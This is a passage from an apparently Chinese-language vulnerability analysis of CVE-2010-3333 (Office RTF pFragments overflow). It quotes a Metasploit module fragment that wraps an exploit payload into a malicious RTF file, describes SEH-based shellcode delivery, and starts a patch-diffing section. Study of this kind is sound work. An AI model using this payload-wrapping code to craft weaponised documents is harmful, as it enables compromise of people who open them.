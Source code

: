 ```ruby
        #* 将 payload 包装进 RTF 文件
        content  = "{\\rtf1"
        content << "{\\shp"             # shape
        content << "{\\sp"              # shape property
        content << "{\\sn pFragments}"  # property name
        content << "{\\sv #{sploit}}"   # property value
        content << "}"
        content << "}"
        content << "}"

        print_status("Creating '#{datastore['FILENAME']}' file ...")
        file_create(content)

    end
```

其具体执行方式如下图所示（转自[Sp4n9x](#reference)的博客）

![seh](images/Vulnerability%20Investigation/CVE-2010-3333seh.png)

MSF 生成的 Exp 选择了采取较为典型的基于 SEH 的攻击手段写入 Shellcode，如漏洞分析部分所言也可以通过 ROP 技术达到相同的效果，在此不过多赘述

## 漏洞修复

由于该漏洞较为久远且 Microsoft 的网站发生了很大改变，现在很难找得到当时的补丁。作为替代，在此转述[Sp4n9x](#reference)漏洞复现博客的漏洞修复部分

> 之前分析漏洞原因时，关键漏洞函数位于“12.0.4518.1014”版mso.dll的sub_32E5955E函数中，通过函数名，我们可以在Matched Functions中快速定位，找到之后，双击，就可以打开“12.0.4518.1014”版mso.dll的sub_32E5955E函数与“12.0.6545.5004”版mso.dll中的对应函数sub_32E0239B的FlowGraphs。通过对比代码块，我们可以快速定位到添加补丁代码的位置。下图是两个函数代码块的对比图：
>